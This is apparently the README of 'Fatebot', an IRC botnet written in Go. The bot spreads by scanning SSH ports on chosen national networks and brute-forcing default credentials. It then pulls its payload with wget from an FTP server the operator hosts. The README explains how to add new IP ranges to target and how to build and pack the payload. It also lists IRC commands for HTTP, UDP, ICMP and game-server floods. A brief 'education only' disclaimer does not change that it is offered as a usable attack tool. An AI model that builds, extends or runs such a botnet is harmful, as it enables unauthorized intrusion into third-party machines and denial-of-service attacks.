

# Fatebot
This is my first IRC botnet for launch Denial of Service attack. Scan target are anything that run linux, Open default SSH port, Use default username and password. This bot are write in Go language. <strong>For education purpose only. Please test it in your lab, I create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA or CN network or You can do a random scan or even You can add you own mods like russia or india isp mods. All of these it's up to you. This bot will Brute-force attack to the target and use "wget" to get payload from FTP server, So... Please prepair your FTP server first It's very important for The infect process. <strong>(It just my case, You can use any option that can host The payload.)</strong>

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_name = "224.12" //224.12.255.255
		
(2) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			uk1, uk2, uk3, uk4, uk5,
		}

(3) Go to "nextIP" function and add The case for your ip range and return range of your ip.

		case var_name:
				return scan.manageRange(genRange(255, 0)) //max and min
				
(3.1) In case of The ip range That you don't want to custom your second network prefix.
	
	Example:
	
		var_name = "224.12"
		var_name = "224.20"
		
	#The ip range that look like this it will return range of The id since 0 - 255 by default.
	#So... That's mean you don't need to add a case of your ip range.
	

(4) Then go down to The "ScanMode" function and add The case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			irc.BotScanner(UK_netList, ftp, payload, false) //Just config The first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of ssh port are open on which isp/org. What is the most used OS, version and etc.</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The volumetric layer</strong>.

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	./bin/<payload>
	
	#Tips: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
	Debian:
		apt install upx -y && upx -9 bin/<payload>

# IRC Commands

	?get 	<url>			Flood HTTP get request to target.
	?post 	<url>			Flood HTTP post request to target.
	?udp 	<ip> <size>		Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
	?icmp 	<ip>			Flood ICMP with large packets to target.
	?vse 	<ip>			Flood TSource Engine Query request(UDP) on valve source engine dst port, By random src port. To The target server that used to host online games.
	?scan 	<modes> <server>	Scan SSH port on The network, Brute-Force attack to The target and load The payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network. 
		-usa		Scan on united states network. 
		-r		Scan on random ip range. 	
		
	?info				Get bot system information, For bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
